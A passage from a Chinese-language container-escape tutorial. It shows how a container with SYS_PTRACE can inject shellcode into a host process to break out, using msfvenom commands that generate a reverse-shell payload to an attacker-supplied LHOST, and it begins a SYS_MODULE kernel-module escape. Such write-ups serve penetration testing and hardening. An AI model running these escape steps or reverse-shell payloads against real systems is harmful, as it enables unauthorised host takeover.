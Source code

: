
### 进程注入
存在sys_ptrace的容器可以进行进程注入，如果能注入到宿主机进程，则可以逃逸

```plain
#下载0x00sec_code项目
git clone https://github.com/0x00pf/0x00sec_code.git
修改/0x00sec_code/mem_injec/infect.c，为进程注入利用代码
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665593849352-15551f06-4a11-4c48-aa83-55f33cceb619.png)

```plain
注入的shellcode可以使用msfvenom生成

#反弹shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=x.x.x.x LPORT=4444 -f java

#执行命令
msfvenom -p linux/x64/exec CMD='touch /tmp/success2' -f java
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665593888720-73b212d0-f556-4dae-883f-4d4d4974b3d0.png)

<font style="color:rgb(51, 51, 51);background-color:rgb(251, 250, 248);">使用文本编辑器转换成shellcode格式</font>

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665593883868-5de60b5a-225b-4647-9cb1-b4ab2e1409d9.png)

编译infect.c生成可执行程序

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665594018386-a32ab12f-1215-4f4a-91e4-d050dd5546aa.png)

<font style="color:rgb(51, 51, 51);background-color:rgb(251, 250, 248);">这里在容器中查看PID，由于与宿主机共享PID namespace，可以查看到宿主机进程，选择PID 754进行注入 </font>

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665594047191-d4f19f6f-4846-4dfe-a462-a0d187fcf82c.png)

<font style="color:rgb(51, 51, 51);background-color:rgb(251, 250, 248);">在容器上执行</font>

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665594063501-dc1cb55e-e1ce-49e2-b38a-ccbc141c25b8.png)

<font style="color:rgb(51, 51, 51);background-color:rgb(251, 250, 248);">获取宿主机权限，成功逃逸</font>

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665594089207-a84e5d63-0f3f-4958-8c91-e2f152d5e979.png)

> 拥有privileged权限也可以利用此方式进行逃逸
>

## SYS_MODULE
具备该权限可以在容器中加载内核模块，宿主机与容器共享内核，加载内核模块执行命令可逃逸到宿主机

### 加载内核模块 
启动sys_module权限的容器
